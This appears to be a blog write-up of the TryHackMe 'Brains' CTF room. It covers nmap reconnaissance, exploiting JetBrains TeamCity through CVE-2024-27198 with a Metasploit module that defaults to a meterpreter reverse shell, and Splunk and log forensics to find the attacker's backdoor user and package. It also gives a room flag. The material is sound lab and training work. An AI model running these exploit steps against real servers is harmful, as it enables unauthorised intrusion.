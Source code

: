 ```yaml
---
title: "TryHackMe - Brains"
date: 2025-04-05 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [CVE-2024-27198, rce, jetbrains, metasploit, splunk, teamcity ]

---
```

## Introduction

[This CTF](https://tryhackme.com/room/brains) is divided into two parts. In the first, we take on the role of an attacker compromising the server, while in the second, our task is to detect the intrusion as part of the blue team.

# Red: Exploit the Server ! 

## Reconnaissance

The initial phase of any reconnaissance involves conducting an Nmap scan to collect details about the target system. To achieve this, I executed the following command:

```console
$ nmap -sC -sV -A 10.10.247.49 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-05 13:23 EDT
Nmap scan report for 10.10.247.49
Host is up (0.075s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7f:73:d3:f6:1b:d2:a7:c2:2a:9b:02:99:4e:20:f3:c5 (RSA)
|   256 db:0a:4e:4b:11:b8:72:53:8a:d9:f2:f7:7f:fc:93:ff (ECDSA)
|_  256 8a:4a:06:11:8c:f9:a3:85:e2:a3:e2:ea:39:b1:83:2b (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Maintenance
50000/tcp open  http    Apache Tomcat (language: en)
|_http-title: TeamCity Maintenance &mdash; TeamCity
| http-methods: 
|_  Potentially risky methods: TRACE
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
I notice an open port **50000**, which takes me to the **TeamCity** login page. Immediately, the version **2023.11.3** in use catches my eye.

![jetbrainversion](/images/brains/brainsteamcityversion.png)

I searched the internet to check if there were any exploits related to this version of **JetBrains TeamCity** and found the vulnerability [CVE-2024-27198](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)

## Exploitation
I launch Metasploit.

```console
msf6 > search jetbrains

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  auxiliary/scanner/teamcity/teamcity_login                 .                normal     No     JetBrains TeamCity Login Scanner
   1  exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793  2023-09-19       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   2    \_ target: Windows                                      .                .          .      .
   3    \_ target: Linux                                        .                .          .      .
   4  exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198  2024-03-04       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   5    \_ target: Java                                         .                .          .      .
   6    \_ target: Java Server Page                             .                .          .      .
   7    \_ target: Windows Command                              .                .          .      .
   8    \_ target: Linux Command                                .                .          .      .
   9    \_ target: Unix Command                                 .                .          .      .

```

I select the exploit that interests me and configure it accordingly.

```console
msf6 > use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options
```

I then run the exploit. Everything goes according to plan. With access now gained, I begin searching for the first flag.

```console
cd /home
ls
ubuntu
cd ubuntu
ls
config.log
flag.txt
cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}

```

**FLAG : THM{faa9bac345709b6620a6200b484c7594}**

# Blue: Let's Investigate
"The IT department has provided us one of the servers which was compromised as a result of the attack. Our task as a Forensics Analyst is to examine the host and identify the attacker's footprints in the post-exploitation stage."
## Investigation

**1. What is the name of the backdoor user which was created on the server after exploitation?**

To identify a newly created user account that may have been added post-exploitation, I begin by narrowing the scope of my search to specific parameters.
The first step is to set the **index to auth_logs**, as it directly relates to authentication activity.

![splunka](/images/brains/brainssplunka.png)

Next, I refine the search by filtering on key fields relevant to user authentication and system access events.

![splunkb](/images/brains/brainssplunkb.jpg)

Using this approach, and by focusing on the **name** field, I quickly identify a suspicious user with a conspicuous and alarming username: **eviluser**.

![eviluser](/images/brains/brainsquestion1.png)


**2. What is the name of the malicious-looking package installed on the server?**

I need to search the file **/var/log/dpkg.log**, which is the package management log used on Debian-based systems (e.g., Ubuntu, Kali Linux). This log is generated by the **dpkg tool**, which is responsible for installing, removing, and managing .deb packages.

The package was likely installed immediately after the user account was created, so I set a time range during which this could have occurred. I then proceed to search for the installed packages in **dpkg.log** within that timeframe.
![package](/images/brains/brainsquestion2.png)

As seen, the installed package is **datacollector**

**3. What is the name of the plugin installed on the server after successful exploitation?**

Having previously executed the exploit as a red team, I know that the vulnerability I exploited relates to **TeamCity**. I now begin searching through the TeamCity logs. Immediately, an unusual package name catches my eye.

![plugin](/images/brains/brainsquestion3.png)